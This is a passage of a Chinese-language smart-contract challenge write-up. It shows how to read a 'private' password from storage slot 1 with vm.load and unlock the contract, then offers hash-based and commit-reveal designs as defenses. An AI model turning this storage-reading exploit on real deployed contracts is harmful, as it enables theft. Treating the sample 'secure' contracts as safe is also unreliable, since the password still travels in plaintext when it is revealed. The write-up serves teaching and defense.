 ### 关键攻击步骤

1. **分析存储布局**：确定 password 存储在 slot 1
2. **读取存储**：使用 `vm.load()` 读取 slot 1 的数据
3. **调用 unlock**：使用读取的密码解锁合约

```solidity
// 读取 slot 1 中的密码
bytes32 password = vm.load(address(instance), bytes32(uint256(1)));

// 解锁合约
instance.unlock(password);

// 验证解锁成功
assertEq(instance.locked(), false);
```

## 🛡️ 防御措施

### 1. 避免在链上存储敏感数据

```solidity
// ❌ 不安全：密码存储在链上
contract VulnerableVault {
    bytes32 private password;  // 可以被读取！
    
    constructor(bytes32 _password) {
        password = _password;
    }
}

// ✅ 安全：使用哈希验证
contract SecureVault {
    bytes32 private passwordHash;  // 存储哈希而不是明文
    
    constructor(bytes32 _passwordHash) {
        passwordHash = _passwordHash;
    }
    
    function unlock(string memory _password) public {
        require(keccak256(abi.encodePacked(_password)) == passwordHash, "Wrong password");
        // unlock logic
    }
}
```

### 2. 使用提交-揭示方案

```solidity
contract CommitRevealVault {
    mapping(address => bytes32) private commitments;
    
    // 第一阶段：提交哈希
    function commit(bytes32 _commitment) public {
        commitments[msg.sender] = _commitment;
    }
    
    // 第二阶段：揭示并验证
    function reveal(string memory _password, uint256 _nonce) public {
        bytes32 hash = keccak256(abi.encodePacked(_password, _nonce));
        require(commitments[msg.sender] == hash, "Invalid reveal");
        // unlock logic
    }
}
```